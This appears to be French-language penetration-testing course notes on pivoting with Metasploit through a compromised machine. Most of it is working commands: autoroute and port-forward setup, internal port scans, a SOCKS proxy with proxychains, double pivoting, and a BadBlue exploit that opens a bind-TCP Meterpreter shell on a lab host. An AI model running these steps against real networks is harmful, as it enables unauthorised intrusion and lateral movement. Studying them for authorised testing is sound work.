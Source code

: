 # 🔄 Pivoting avec Metasploit

[← Retour à la table des matières](../README.md)

## Concepts de base

Le pivoting permet d'accéder à des réseaux internes via une machine compromise. Essentiel quand la cible finale n'est pas directement accessible depuis l'attaquant.

### Architecture typique
```
Attaquant → Machine Compromise → Réseau Interne
           (Pivot Point)        (Cibles finales)
```

## Configuration du Pivoting - Méthode Complète

### Étape 1 : Compromission de la première cible
```bash
# Une fois Meterpreter obtenu sur la victim-1
# Récupérer la configuration réseau
ipconfig
ifconfig
```

### Étape 2 : Découverte du réseau interne
```bash
# Dans le Meterpreter, identifier les réseaux
ipconfig
# Exemple de sortie : 10.2.16.100/20

# Ajouter la route vers le réseau interne
run autoroute -s 10.2.16.0/20

# Vérifier les routes
run autoroute -p
```

### Étape 3 : Gestion des sessions
```bash
# Mettre la session en arrière-plan
background

# Renommer la session pour plus de clarté
sessions -n victim-1 -i 1

# Lister les sessions actives
sessions -l
```

### Étape 4 : Scan du réseau interne
```bash
# Scanner la victim-2 via le pivot
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.16.101
set PORTS 1-1000
set THREADS 20
run

# Exemple : port 80 découvert ouvert
```

### Étape 5 : Port Forwarding pour accès web
```bash
# Retourner sur la session Meterpreter
sessions -i 1

# Configurer le port forwarding
portfwd add -l 1234 -p 80 -r 10.2.16.101

# Vérifier les redirections actives
portfwd list

# Mettre la session en arrière-plan
background
```

### Étape 6 : Scan détaillé via port forwarding
```bash
# Scanner le service redirigé
db_nmap -sS -sV -p1234 localhost

# Accès web depuis le navigateur : http://localhost:1234
```

## Exploitation via Pivot

### Utilisation de Bind TCP au lieu de Reverse TCP
```bash
# Pour la victim-2, utiliser bind_tcp car reverse_tcp ne fonctionnera pas
# (la victim-2 ne peut pas joindre directement l'attaquant)

use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.16.101
set RPORT 80
set PAYLOAD windows/meterpreter/bind_tcp
set RHOST 10.2.16.101
exploit
```

### Upgrade de session
```bash
# Upgrade une session shell Unix vers Meterpreter
sessions -u session_id
```

## Configuration SOCKS Proxy

### Serveur SOCKS dans Metasploit
```bash
# Démarrer un serveur SOCKS
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run
```

### Configuration Proxychains
```bash
# Éditer le fichier de configuration
nano /etc/proxychains4.conf

# Ajouter ou vérifier la ligne :
# socks4 127.0.0.1 9050
```

### Utilisation avec Proxychains
```bash
# Scanner via proxychains
proxychains nmap -sT -Pn target_ip

# Accès SSH via proxy
proxychains ssh user@target_ip

# Navigation web via proxy
proxychains firefox
```

## Techniques Avancées

### Double Pivoting
```bash
# Scénario : Attaquant → Victim-1 → Victim-2 → Victim-3

# 1. Premier pivot (déjà configuré)
run autoroute -s 10.2.16.0/20

# 2. Compromettre victim-2 et découvrir un nouveau réseau
# Sur victim-2, découverte de 172.16.0.0/24

# 3. Ajouter route pour le nouveau réseau via victim-2
sessions -i 2
run autoroute -s 172.16.0.0/24
```

### Pivoting multi-sessions
```bash
# Gérer plusieurs sessions de pivot
sessions -l
# Session 1 : victim-1 (pivot vers 10.2.16.0/20)
# Session 2 : victim-2 (pivot vers 172.16.0.0/24)

# Chaque session maintient ses propres routes
```

## Nettoyage et Suppression

### Suppression des routes
```bash
# Supprimer une route spécifique
run autoroute -d 10.2.16.0/20

# Supprimer toutes les routes
run autoroute -D
```

### Suppression du port forwarding
```bash
# Supprimer une redirection spécifique
portfwd delete -l 1234 -p 80 -r 10.2.16.101

# Supprimer toutes les redirections
portfwd flush
```

## Dépannage

### Problèmes courants
```bash
# Vérifier la connectivité via le pivot
sessions -i 1
shell
ping 10.2.16.101

# Vérifier les routes actives
run autoroute -p

# Vérifier les redirections de port
portfwd list
```

### Optimisation des performances
```bash
# Ajuster les timeouts pour les réseaux lents
set ConnectTimeout 30
set TcpTimeout 30

# Réduire le nombre de threads pour la stabilité
set THREADS 5
```

## Ressources Utiles

- Documentation officielle Metasploit sur le pivoting
- [Guide des payloads bind vs reverse](../08-payloads/reverse-shells.md)
- [Configuration de proxychains](../06-tools/)
